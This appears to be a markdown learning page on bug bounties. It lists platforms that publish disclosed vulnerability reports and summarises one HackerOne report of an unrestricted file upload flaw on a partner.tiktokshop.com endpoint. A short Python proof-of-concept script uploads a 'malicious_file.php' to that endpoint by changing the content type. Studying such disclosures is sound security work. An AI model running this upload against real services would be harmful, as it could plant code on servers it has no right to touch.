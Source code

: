 # Bug Bounties 

Bug bounty reports can be a great way to learn about vulnerabilities, exploit techniques, and responsible disclosure. Here are some resources where you can find bug bounty reports:

| Company             | URL                                                      | Description                                                                                             |
|---------------------|----------------------------------------------------------|---------------------------------------------------------------------------------------------------------|
| HackerOne           | https://hackerone.com/hacktivity                         | Public "Hacktivity" feed with disclosed vulnerability reports from various researchers.                 |
| Bugcrowd            | https://bugcrowd.com/programs                            | Bug bounty platform with individual programs, some of which may have disclosed reports available.       |
| Google VRP          | https://www.google.com/about/appsecurity/reward-program/ | Google Vulnerability Reward Program with a Hall of Fame and other resources containing bug reports.     |
| GitHub Security Lab | https://securitylab.github.com/research                  | Initiative by GitHub to help secure open source software, publishing security research and bug reports. |


## Reports

### Hackerone - File upload 01
> https://hackerone.com/reports/1890284
 
An unrestricted file upload vulnerability was found on a partner.tiktokshop.com endpoint, where if the content-type in the header was changed, any extension could be uploaded. We thank @h4x0r_dz for reporting this to our team.

An unrestricted file upload vulnerability was discovered on the partner.tiktokshop.com endpoint. This vulnerability allows an attacker to upload a file with any extension by changing the "Content-Type" header. This can potentially lead to the execution of malicious code on the server.

Here is a simple proof of concept (PoC) using Python to demonstrate this vulnerability:

```python
import requests

url = "https://partner.tiktokshop.com/upload_endpoint"  # Replace with the actual upload endpoint
file_path = "malicious_file.php"  # Replace with the path of your malicious file

with open(file_path, 'rb') as f:
    files = {'file': (file_path, f, 'application/octet-stream')}  # Use 'application/octet-stream' as the Content-Type
    response = requests.post(url, files=files)

print(response.text)
```